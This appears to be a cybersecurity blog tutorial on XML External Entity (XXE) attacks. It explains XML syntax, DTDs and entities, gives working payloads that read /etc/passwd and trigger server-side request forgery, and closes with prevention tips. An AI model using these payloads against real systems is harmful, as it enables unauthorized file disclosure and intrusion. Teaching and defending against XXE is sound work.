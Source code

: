```yaml
---
title: "XML External Entity - XXE Attack"
date: 2023-07-01
draft: false
tags: 
  - xml
  - xxe
  - cybersecurity
  - infosec
categories:
  - cybersecurity
  - infosec
cover: 
  image: "/xxe.png"
---
```

XXE is a web-based vulnerability that enables an adversary to interfere with XML data processes in a web application. An XXE attack can be carried out by exploiting the way in which XML parses data.

An XXE attack can lead to - denial of service (DoS), server-side request forgery (SSRF), local file inclusion (LFI), directory traversal, remote code execution (RCE), network port scanning.

There are two types of XXE attacks: 

**in-band** - attacker receives an immediate response to the XXE payload

**out-of-band (OOB-XXE)/blind XXE** - there is no immediate response from the web application

### What is XML

Extensible Markup Language (XML) is a markup language that provides rules to define any data.

XML has no predefined tags to use; instead, you can define your own tags designed specifically for your needs

XML has a standardized syntax - this makes it easier to transmit XML across systems or platforms, either locally or over the internet, the recipient can still parse using XML parsers

### What are XML parsers

Convert XML data from its serialized string format to its hierarchical format.

### Format of XML aka Syntax

**XML prolog** - defines the XML version and the encoding used in the XML document.

`<?xml version = "1.0" encoding = "utf-8"?>`

It is optional, however when we include it in the XML document, it should always be the first line of the document. 

**XML document structure**

```xml
<?xml version = "1.0" encoding = "utf-8"?>
<root>  
	<child>  
		<subchild>.....</subchild>  
	</child>  
</root>
```

A XML document **should always have a root element**

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<Movies>
    <Type>Action</Type>
    <movie>
        <No>1</No>
        <Name>IronMan</Name>
    </movie>
    <movie>
        <No>2</No>
        <Name>Mission Impossible</Name>
    </movie>
    <movie>
        <No>3</No>
        <Name>The Bourne Identity</Name>
    </movie>
</Movies>
```

### DTD in XML

The purpose of a Document Type Definition (DTD) is to define the legal building blocks of an XML document. It defines the document structure with a list of legal elements. A DTD can be declared inline in your XML document, or as an external reference. 

This is an XML document with a Document Type Definition:

***Internal DTD***

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note    (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>

<note>
  <to>Susan</to>
  <from>David</from>
  <heading>Reminder</heading>
  <body>Meeting at 9</body>
</note>
```

***External DTD***

```xml
<?xml version="1.0"?>
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

### Entities

Entities are "shortcuts" to common text and can be defined internally or externally.

***Internal Entity Declaration***

```xml
Syntax: 

<!ENTITY entity-name "entity-value">

DTD Example:

<!ENTITY writer "Jan Egil Refsnes.">
<!ENTITY copyright "Copyright XML101.">

XML example:

<author>&writer;&copyright;</author>
```

> For XXE attacks to be possible
> 
> - Web app must accept XML input from the user and parse it using a back-end XML parser
> - The XML parser must have XML external entities support enabled

### How to check for XXE
##### XXE Entity Example

```xml
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE.

### To exploit

##### Disclosing /etc/passwd 

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>&xxe;</root>
```

The above payload would display the content of the file `/etc/passwd`

> XXE can only be used to obtain files or responses that contain “valid” XML
> XXE cannot be used to obtain binary files


##### XXE SSRF ( Server Side Request Forgery ) Example

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```


### How to prevent XXE?

- input validation and sanitization of XML documents
- create whitelists and blacklists for XML content
- disallow XML external entities on the level of the XML parser, not the web application

### Further Read

SVG file upload leads to XXE: https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

XML External Entity (XXE) Injection Payload List: https://github.com/payloadbox/xxe-injection-payload-list